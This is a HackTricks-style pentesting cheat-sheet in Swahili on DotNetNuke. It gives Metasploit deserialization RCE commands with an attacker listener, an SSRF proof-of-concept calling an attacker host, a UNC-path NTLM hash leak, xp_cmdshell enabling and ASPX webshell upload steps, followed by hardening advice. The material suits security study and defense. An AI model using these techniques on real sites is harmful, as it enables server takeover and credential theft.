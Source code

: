 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Ikiwa unaingia kama **administrator** katika DNN ni rahisi kupata **RCE**, hata hivyo mbinu kadhaa za *unauthenticated* na *post-auth* zimechapishwa katika miaka michache iliyopita.  Cheat-sheet ifuatayo inakusanya primitives muhimu zaidi kwa kazi za mashambulizi na za kujihami.

---
## Tathmini ya Toleo na Mazingira

* Angalia kichwa cha jibu cha HTTP *X-DNN* – kwa kawaida kinadhihirisha toleo halisi la jukwaa.
* Mchawi wa usakinishaji unavuja toleo katika `/Install/Install.aspx?mode=install` (inapatikana kwenye usakinishaji wa zamani sana).
* `/API/PersonaBar/GetStatus` (9.x) inarudisha blob ya JSON inayojumuisha `"dnnVersion"` kwa watumiaji wenye haki za chini.
* Keki za kawaida utakazoziona kwenye mfano wa moja kwa moja:
* `.DOTNETNUKE` – tiketi ya uthibitishaji wa fomu za ASP.NET.
* `DNNPersonalization` – ina data ya profaili ya mtumiaji ya XML/serialized (toleo za zamani – angalia RCE hapa chini).

---
## Utekelezaji Usio na Uthibitisho

### 1. Cookie Deserialization RCE  (CVE-2017-9822 & follow-ups)
*Toleo lililoathiriwa ≤ 9.3.0-RC*

`DNNPersonalization` inachambuliwa kwenye kila ombi wakati mpangilio wa 404 wa ndani umewezeshwa.  XML iliyoundwa inaweza hivyo kusababisha mnyororo wa vifaa vya kiholela na utekelezaji wa msimbo.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Moduli inachagua kiotomatiki njia sahihi kwa toleo zilizorekebishwa lakini bado zina udhaifu (CVE-2018-15811/15812/18325/18326). Utekelezaji unafanya kazi **bila uthibitisho** kwenye 7.x–9.1.x na kwa akaunti ya *hakiki* ya chini ya mamlaka kwenye 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Toleo zilizoathirika < 9.13.8  –  Patch iliyotolewa Aprili 2025*

Kupita kwa suluhisho la zamani la `DnnImageHandler` kunamwezesha mshambuliaji kulazimisha seva kutoa **maombi ya GET yasiyo na mipaka** (semi-blind SSRF). Athari za vitendo:

* Skana ya bandari za ndani / ugunduzi wa huduma za metadata katika matumizi ya wingu.
* Fikia mwenyeji ambao vinginevyo vimefungwa kutoka kwa Mtandao.

Uthibitisho wa dhana (badilisha `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
The request is triggered in the background; monitor your listener for callbacks.

### 3. NTLM Hash Exposure via UNC Redirect  (CVE-2025-52488)
*Toleo lililoathiriwa 6.0.0 – 9.x (< 10.0.1)*

Maudhui yaliyoundwa kwa njia maalum yanaweza kufanya DNN ijitahidi kupata rasilimali kwa kutumia **UNC path** kama `\\attacker\share\img.png`. Windows itafanya mazungumzo ya NTLM kwa furaha, ikivuja hash za akaunti ya seva kwa mshambuliaji. Pandisha toleo hadi **10.0.1** au zima SMB ya nje kwenye firewall.

### 4. IP Filter Bypass  (CVE-2025-52487)
Ikiwa wasimamizi wanategemea *Host/IP Filters* kwa ulinzi wa lango la admin, fahamu kwamba matoleo ya kabla ya **10.0.1** yanaweza kupitishwa kwa kubadilisha `X-Forwarded-For` katika hali ya reverse-proxy.

---
## Post-Authentication to RCE

### Via SQL console
Chini ya **`Settings → SQL`** dirisha la swali lililojengwa ndani linaruhusu utekelezaji dhidi ya hifadhidata ya tovuti.  Kwenye Microsoft SQL Server unaweza kuwezesha **`xp_cmdshell`** na kuanzisha amri:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Kupakia webshell ya ASPX
1. Nenda kwenye **`Settings → Security → More → More Security Settings`**.
2. Ongeza `aspx` (au `asp`) kwenye **Allowable File Extensions** na **Save**.
3. Tembelea **`/admin/file-management`** na upakie `shell.aspx`.
4. Ianzishe kwenye **`/Portals/0/shell.aspx`**.

---
## Kuinua Haki kwenye Windows
Mara tu utekelezaji wa msimbo unapoonekana kama **IIS AppPool\<Site>**, mbinu za kawaida za kuinua haki za Windows zinatumika. Ikiwa sanduku lina udhaifu unaweza kutumia:

* **PrintSpoofer** / **SpoolFool** kutumia *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** kutoroka *Service Accounts*.

---
## Mapendekezo ya Kuimarisha (Blue Team)

* **Sasisha** angalau **9.13.9** (inasahihisha SSRF bypass) au bora zaidi **10.0.1** (masuala ya IP filter & NTLM).
* Ondoa faili za ziada **`InstallWizard.aspx*`** baada ya usakinishaji.
* Zima SMB ya nje (bandari 445/139) egress.
* Lazimisha *Host Filters* kali kwenye proxy ya ukingo badala ya ndani ya DNN.
* Zuia ufikiaji wa `/API/RemoteContentProxy` ikiwa haijatumika.

## Marejeleo

* Metasploit `dnn_cookie_deserialization_rce` module documentation – maelezo ya vitendo ya RCE isiyo na uthibitisho (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – 2025 SSRF bypass & taarifa za patch.
{{#include ../../banners/hacktricks-training.md}}
